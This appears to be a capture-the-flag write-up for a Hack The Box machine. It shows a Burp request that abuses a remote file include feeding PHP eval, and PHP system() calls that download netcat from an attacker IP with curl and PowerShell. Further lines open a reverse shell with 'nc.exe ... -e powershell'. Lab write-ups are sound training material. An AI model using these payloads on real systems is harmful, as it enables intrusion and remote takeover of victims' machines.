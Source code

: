 ### RCEish
The `Content-Type: application/x-www-form-urlencoded` not been added by Firefox by default. By Burp do it automatically.

##### Other 3 things
1. 

```bash burp
POST /admin/?debug=master.php HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=5b81mitco4j6hgiljr9euhqj1c
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

include=http://10.10.16.12/cmd.php <- you can't do a ?cmd=.. here. Since it's not really RCE but to feed the `eval`
``` 

2. To feed the `eval` you can't use `<?php ?>` tag anymore but plain php code. And the server side might have cache you need to keep chaning the file name to gain more stablitiy. `cmd.php` -> `cmd02.php`

3. The popular shell doesn't work
```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.63.50] 60254
'uname' is not recognized as an internal or external command,
operable program or batch file.
```

### Explolit
 Only `curl` and `powershell -c` worked after checking the version
```php
system("curl --version");
system("wget --version");
system("powershell --version");
system("powershell Get-Host");

system("powershell -c wget http://10.10.16.12/nc.exe -outfile c:\\windows\\temp\\nc.exe")
system("curl 10.10.16.12/nc64.exe -o c:\\windows\\temp\\nc64.exe");

system("c:\windows\\temp\\nc.exe 10.10.16.12 443 -e powershell");
```
